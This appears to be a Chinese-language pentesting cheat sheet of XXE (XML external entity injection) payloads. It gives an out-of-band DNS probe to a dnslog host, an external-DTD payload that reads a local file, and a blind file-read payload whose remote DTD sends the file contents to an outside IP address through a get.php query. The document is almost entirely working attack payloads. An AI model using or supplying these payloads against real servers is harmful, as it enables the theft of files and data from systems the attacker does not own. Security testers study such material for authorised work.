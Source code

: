 

## 带外测试(主要用于漏洞检测)：
```xml
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://9v57ll.dnslog.cn">
%file;
]>
<user><username>&send;</username><password>xiaodi</password></user>
```

## 外部引用实体dtd：
```xml
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://127.0.0.1:8081/xiaodi.dtd">
%file;
]>
<user><username>&send;</username><password>xiaodi</password></user>




xiaodi.dtd
<!ENTITY send SYSTEM "file:///d:/1.txt">
```


## 无回显读文件
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/1.txt">
<!ENTITY % remote SYSTEM "http://47.94.236.117/test.dtd">
%remote;
%all;
]>
<root>&send;</root>
test.dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://47.94.236.117/get.php?file=%file;'>">
```


## 其他玩法（协议）-见参考地址

https://www.cnblogs.com/20175211lyz/p/11413335.html



# 黑盒测试
